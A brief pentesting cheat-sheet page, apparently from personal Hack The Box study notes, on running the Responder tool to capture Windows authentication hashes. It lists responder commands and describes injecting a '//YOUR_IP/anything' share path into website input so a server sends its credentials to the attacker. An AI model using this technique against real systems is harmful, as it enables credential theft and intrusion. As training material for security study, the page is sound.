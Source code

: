 # Responder

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -I tun0
$ sudo responder -i IP -I tun0
```

Logs are stored at: `/usr/share/responder/logs`.
</div><div>

Following the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Passive Network Discovery

```ps
$ sudo responder -I tun0 -A
```
</div><div>
</div></div>